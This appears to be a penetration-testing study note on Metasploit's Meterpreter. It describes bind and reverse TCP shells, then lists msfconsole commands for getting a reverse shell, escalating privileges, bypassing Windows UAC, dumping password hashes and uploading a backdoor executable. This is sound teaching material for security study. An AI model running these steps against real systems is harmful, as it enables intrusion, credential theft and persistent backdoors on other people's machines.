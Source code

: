 ### Meterpreter

> Ability to:
>
> * Get a powerful shell on an exploited machine
> * Take control over an exploited machine
> * Install backdoors

Provides advanced features to:

* Gather information.
* Transfer files between the attacker and victim machines.
* Install backdoors and more.
* `meterpreter` can both wait for a connection on the target machine or connect back to the attacker machine.
* A Meterpreter session is an advanced shell on the target machine.
* Most used configurations are:
  * _bind\_tcp_: runs a server process on the target machine that waits for connections from the attacker machine.
  * _reverse\_tcp_: performs a TCP connection back to the attacker machine \(helping to evade firewall rules\).

Inside a `msfconsole`:

```bash
> search meterpreter
> set payload windows/meterpreter/reverse_tcp
> exploit
> sessions -l # current opened sessions
> sessions -i 1 # resume session 1
> sysinfo # retrieve info about the exploited machine
> ifconfig # prints the network configuration
> route # routing info
> getuid # which user is running the process exploited
> getsystem # Runs a privilege escalation routine on the target machine

# Bypass UAC (User Account Control policy of modern Windows OSs)
> background # switch from a meterpreter session to the msf console
> search bypassuac
> use exploit/windows/local/bypassuac
> set session 1
> exploit
> getuid

# Dumping the Password Database
> background
> use post/windows/gather/hashdump
> set session 2
> exploit

# Upload / download files
> download HaxLogs.log /root/
> upload /root/backdoor.exe c:\\Windows # note the backslash escaping
> shell
```
